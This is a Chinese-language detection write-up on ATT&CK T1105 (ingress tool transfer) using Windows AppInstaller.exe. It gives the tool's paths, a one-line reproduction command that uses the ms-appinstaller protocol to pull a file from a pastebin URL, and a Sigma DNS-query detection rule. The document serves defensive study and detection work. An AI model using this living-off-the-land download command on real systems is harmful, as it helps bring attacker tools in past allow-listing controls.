 # T1105-Win-入口工具转移-AppInstaller.exe(白名单、失效)

## 来自ATT&CK的描述

攻击者可能会将工具或其他文件从外部系统转移到被攻击的环境中。可以通过命令和控制通道从外部攻击者控制的系统复制文件，用以将工具带入被攻击的网络中，或通过其他工具（如 FTP）的替代协议。 也可以使用 scp、rsync 和 sftp等本地工具在Mac和 Linux上复制文件。

## 测试案例

AppInstaller.exe用于在 Windows 10 上安装AppX/MSIX应用程序的工具。

**路径:**

```bash
C:\Program Files\WindowsApps\Microsoft.DesktopAppInstaller_1.11.2521.0_x64__8wekyb3d8bbwe\AppInstaller.exe
```

AppInstaller.exe 由 URI 的默认处理程序生成，它尝试从 URL 加载/安装包并保存在

```bash
C:\Users\%username%\AppData\Local\Packages\Microsoft.DesktopAppInstaller_8wekyb3d8bbwe\AC\INetCache\<RANDOM-8-CHAR-DIRECTORY>
```

用例：从 Internet 下载文件
所需权限：用户
操作系统：Windows 10

## 检测日志

Windows 安全日志

## 测试复现

```bash
C:\Users\liyang>start ms-appinstaller://?source=https://pastebin.com/raw/tdyShwLw
```

不过很遗憾，微软禁用ms-appinstaller协议，用以阻止恶意软件传播。

## 测试留痕

无

## 检测方法/思路

这里参考Sigma官方规则。

```yml
title: AppInstaller Attempts From URL by DNS

id: 7cff77e1-9663-46a3-8260-17f2e1aa9d0a

description: AppInstaller.exe is spawned by the default handler for the URI, it attempts to load/install a package from the URL

status: experimental

date: 2021/11/24

author: frack113

tags:

- attack.command_and_control

- attack.t1105

references:

- https://twitter.com/notwhickey/status/1333900137232523264

- https://lolbas-project.github.io/lolbas/Binaries/AppInstaller/

logsource:

product: windows

category: dns_query

detection:

selection:

Image|startswith: C:\Program Files\WindowsApps\Microsoft.DesktopAppInstaller_

Image|endswith: \AppInstaller.exe

condition: selection

falsepositives:

- Unknown

level: medium

```

## 参考推荐

MITRE-ATT&CK-T1105

<https://attack.mitre.org/techniques/T1105>

AppInstaller.exe

<https://lolbas-project.github.io/lolbas/Binaries/AppInstaller/>

Sigma-win_dq_lobas_appinstaller

<https://github.com/SigmaHQ/sigma/blob/bdb00f403fd8ede0daa04449ad913200af9466ff/rules/windows/dns_query/win_dq_lobas_appinstaller.yml>
